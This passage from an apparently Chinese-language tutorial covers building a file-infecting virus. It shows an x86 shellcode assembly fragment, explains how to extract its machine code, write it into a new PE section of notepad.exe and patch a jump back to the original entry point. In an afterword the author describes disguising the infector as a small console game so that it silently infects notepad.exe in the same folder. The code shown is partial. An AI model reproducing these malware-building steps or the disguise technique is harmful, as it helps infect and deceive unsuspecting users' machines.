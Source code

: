 ```
        mov dword ptr [ebp-04h],    

        xor eax, eax
        push eax
        mov al, 0x82
        push eax
        mov al, 0x02
        push eax
        xor al, al
        push eax
        push eax
        mov al, 0x40
        sal eax, 0x18
        push eax
        lea eax,[ebp-18h] 
        push eax 
        call [edi - 0x04]
        mov esp, esi
        pop ebp
        xor ebx, ebx
        push ebx
        call [edi - 0x0c]
        nop
        nop
        nop
    }
    return 0;
}
```

## 获取shellcode的机器码
编译上面的代码，然后将生成的exe放入OD，选择反汇编，在左下角即可看到我们输入的汇编，然后将他的机器码复制下来即可。

## 将shellcode写入
简单的用fwrite往新节的pointertorawdata的位置写入shellcode即可。

## 跳回原来的entrypoint
运行一下已经完成的程序，这会将notepad.exe写入shellcode，修改entrypoint，总之就是一切都完成了除了跳回原本的entrypoint。这时我们将notepad.exe放入OD，可以很快地找到我们的shellcode的汇编，然后慢慢走到最后，可以看到一个jmp指令，这个是PE装载器在装入这个节的时候自动加上的。我们记住这个指令的地址，然后用这个指令地址减去我们修改的入口点+5（这个指令的下一个指令的地址），然后再写入shellcode之后再加上一条对应的jmp指令即可。
至此，我们的shellcode注入就完成了。

# 后记
后来我还把这个病毒程序所有的printf函数全注释掉，exit变成return，然后伪装成了一个简简单单的控制台小游戏，这样在你玩游戏的时候就会不知不觉的发现你同目录下的notepad.exe被感染了。而且本来跳回原来的entrypoint这个地方我是想让他自动实现的，可以看到我的changeentry函数返回了两个入口点之间的差值，但是我做到最后转念一想，我本来就是做了一个学习性质的感染程序，没必要啊，然后就没做，事实上只要我们得出了jmp的位置和修改后的entrypoint的差值，再加上两个入口点的差值，自动地写入jmp指令就可以了。